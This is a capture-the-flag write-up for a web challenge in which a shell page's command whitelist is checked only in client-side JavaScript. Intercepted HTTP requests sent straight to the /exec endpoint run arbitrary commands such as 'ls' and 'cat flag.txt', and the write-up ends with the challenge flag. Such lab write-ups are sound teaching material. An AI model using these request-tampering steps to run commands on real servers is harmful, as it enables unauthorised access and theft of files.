

# <u>The Shell Shocker</u>

* **Event:** Hack Havoc CTF by CyberMaterial
* **Problem Type:** Web
* **Point Value / Difficulty:** 80
## Description
Our CyberMaterial developer thought they’d created the ultimate basic Linux shell, only the essentials, nothing fancy. But we think they might have missed a trick or two. 😏

Your task? See if you can get this shell to do something it wasn’t exactly “designed” to do. Think of it like asking a fish to climb a tree. 🌳🐟

http://challenge.ctf.cybermaterial.com/a/

## Solution
On opening the website I immediately tried to run some linux commands but it didn't work.

Inspected the website, and came to `network` and refreshed the page. Saw that path of the `styles.css` and `script.js` was not properly configured. and it can't get it from its directory.

Went to `/static/script.js` and `/static/style.css` and found out the files.

Script.js
```js
const commandForm = document.querySelector('#command-form');
const commandInput = document.querySelector('#command-input');
const outputDiv = document.querySelector('#output');

commandForm.addEventListener('submit', async (event) => {
  event.preventDefault();
  
  const command = commandInput.value;
  
  const validCommand = /^((uname|echo|pwd|whoami)\s*([-\w\s]*))?$/i.test(command);
  
  if (!validCommand) {
    outputDiv.textContent = 'Error: Invalid command. Please enter a valid command (uname, echo, pwd, or whoami) with optional arguments and options separated by spaces and hyphens.';
    return;
  }
  
  try {
    const response = await fetch('/exec', {
      method: 'POST',
      headers: {
        'Content-Type': 'application/json'
      },
      body: JSON.stringify({ command }) 
    });
    const result = await response.text();
    outputDiv.textContent = result;
  } catch (error) {
    console.error(error);
    outputDiv.textContent = `Error: ${error.message}`;
  }
});
```

According to the regex we can use commands like uname, echo, pwd, whoami.

Now I open the website on `burpsuite` to intercept the requests, fix them and then send to the server.

We change the request 
```
GET /a/%7B%7B%20url_for('static',%20filename='style.css')%20%7D%7D HTTP/1.1
Host: challenge.ctf.cybermaterial.com
Sec-Purpose: prefetch;prerender
Accept-Language: en-US
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Accept: text/css,*/*;q=0.1
Purpose: prefetch
Referer: http://challenge.ctf.cybermaterial.com/a/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```
to 
```
GET /a/static/style.css HTTP/1.1
Host: challenge.ctf.cybermaterial.com
Sec-Purpose: prefetch;prerender
Accept-Language: en-US
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Accept: text/css,*/*;q=0.1
Purpose: prefetch
Referer: http://challenge.ctf.cybermaterial.com/a/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

and

```
GET /a/%7B%7B%20url_for('static',%20filename='script.js')%20%7D%7D HTTP/1.1
Host: challenge.ctf.cybermaterial.com
Sec-Purpose: prefetch;prerender
Accept-Language: en-US
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Accept: */*
Purpose: prefetch
Referer: http://challenge.ctf.cybermaterial.com/a/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

to this
```
GET /a/static/script.js HTTP/1.1
Host: challenge.ctf.cybermaterial.com
Sec-Purpose: prefetch;prerender
Accept-Language: en-US
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Accept: */*
Purpose: prefetch
Referer: http://challenge.ctf.cybermaterial.com/a/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

Now both the css and js files will be properly loaded. Next lets try any random command which is allowed.

The request we get is 
```
POST /exec HTTP/1.1
Host: challenge.ctf.cybermaterial.com
Content-Length: 17
Accept-Language: en-US
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://challenge.ctf.cybermaterial.com
Referer: http://challenge.ctf.cybermaterial.com/a/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

{"command":"pwd"}
```

We see that it is `POST /exec` but the website has a `/a`. So we modify this request as well by writing `/a/exec` instead of `/exec` and forward it.



It shows `Command not allowed`. The server has some other implementation. Either ways, next just try the command `ls` but change the request instead of writing in the website as it will show error due to the client side js. 

The output we get is `{"output":"__pycache__\napp.py\nflag.txt\nindex.html\nstatic\ntemplates\n"}`

Next just send `cat flag.txt` as the command and viola, you get the flag.
```
POST /a/exec HTTP/1.1
Host: challenge.ctf.cybermaterial.com
Content-Length: 17
Accept-Language: en-US
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://challenge.ctf.cybermaterial.com
Referer: http://challenge.ctf.cybermaterial.com/a/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

{"command":"cat flag.txt"}
```


Flag:- `CM{c0mMAnd_INjEc7iON_f7w}`

